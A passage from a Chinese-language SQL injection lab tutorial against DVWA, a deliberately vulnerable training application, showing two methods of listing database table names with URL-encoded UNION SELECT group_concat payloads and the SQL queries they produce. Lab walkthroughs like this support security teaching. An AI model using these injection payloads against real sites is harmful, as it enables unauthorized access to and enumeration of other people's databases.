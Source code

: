 一个表名为一个回显

![](image/3.jpg)

#### 方法二：

有时候回显只会显示第一行，所以就需要将表名拼接成一个字符串，URL和SQL语句如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(table_name) from Information_schema.tables where table_schema = database()#';
```

![](image/2.jpg)

#### 方法三：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,(select%20group_concat(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20database())%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,(select group_concat(table_name) from Information_schema.tables where table_schema = database())#';
```
